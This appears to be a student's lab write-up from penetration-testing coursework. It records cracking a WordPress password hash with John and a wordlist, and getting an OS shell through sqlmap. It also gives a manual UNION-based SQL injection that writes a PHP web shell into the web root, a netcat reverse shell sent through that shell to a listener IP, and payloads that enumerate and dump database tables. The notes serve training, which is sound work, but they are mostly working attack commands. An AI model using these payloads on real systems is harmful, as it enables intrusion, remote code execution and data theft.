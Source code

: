 * Found Hashed password: `$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0`
* Used KALI tool hash-identifier to identify type:  
```bash
hash-identifer $P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0
* Possible Hashs:
[+] MD5(Wordpress)

# tried Hashcat to crack, but faiiled
hashcat -m 400 -a 0  '$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0'  

# John worked
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john hash.txt --show
?:hulabaloo
```
* https://medium.com/@althubianymalek/uploading-a-shell-in-wordpress-via-sqli-entry-point-1caf441b3d9a
* Full interactive-Shell from sqlmap
* Intercept POST, save to file, then send to sqlmap with -r
* post should have item=test, at the bottom
* sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
## 10.3.2  Q5
1. Subscription form at bottom of main page, sent to BURP
2. BURP show subscription POST request  has veriable mail-list
3. Add single quote ' to end of variable `mail-list='`  - Now we get MySQL error
4. Number of COLs(6), using order 
    * `mail-list=' ORDER BY 7 -- //   # 7 threw an error so we know there's 6  COL`
    *  This command was supposed to identify columns, but I couldn't get it to work
        *  `UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5', 'a6' -- //  `  
5. Of 6 COL, only the fifth column was producing output.
6. Injected the basic PHP web Shell into 5th Column 
```shell
mail-list=' UNION SELECT  null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- // 
```
7. The TMP directory above would change based on WebApp architecture
8. Tried /bin/sh revshell, but that didn't work
9. Issued command  to identify nc `which nc`, NC present, lets try that revshell in browser
```shell
http://192.168.194.48/webshell.php?cmd=nc%20192.168.45.241%204444%20-e%20/bin/sh
```
10. Listener on KALI received Shell, found flag in /var/www/


* mail-list=%'union select null, null,  null, database(), user(), @@version from information_schema.columns where table_schema=database() -- //   
* mail-list=%'union select  null, null,null,table_name, column_name, table_schema from information_schema.columns where table_schema=database() -- //   
* mail-list=bob@bob.com' UNION SELECT null,  null, null, user(), database(), null from information_schema.columns where table_schema=database() -- // 
* list column names,# use percentage here if you don't know what you want... 
    * `mail-list=%'union select  null, null,null,table_name, column_name, table_schema from information_schema.columns where table_schema=database() -- //   `
* trying  to dump columns we find earlier
    * `mail-list='union select  id,emails,is_donor,donor_type,status,created_at from anmial_planet.subscribers -- //   `
    * error from DB :  `SELECT command denied to user 'gollum'@'localhost' for table 'subscribers'  `
